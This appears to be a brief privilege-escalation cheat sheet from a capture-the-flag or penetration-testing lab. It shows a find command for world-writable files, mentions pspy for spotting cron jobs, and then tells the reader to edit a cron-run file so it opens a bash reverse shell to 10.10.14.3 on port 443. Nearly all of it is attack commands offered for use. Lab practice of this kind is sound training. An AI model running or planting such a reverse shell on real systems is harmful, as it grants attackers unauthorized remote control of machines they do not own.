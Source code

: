 ####Find the Directories or Files running Cronjob
```find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null```
Run pspy to check whether the directory is running cronjob or not 

Check the contents of the file running cronjob and then modify it to include a rev shell
```bash -i >& /dev/tcp/10.10.14.3/443 0>&1```
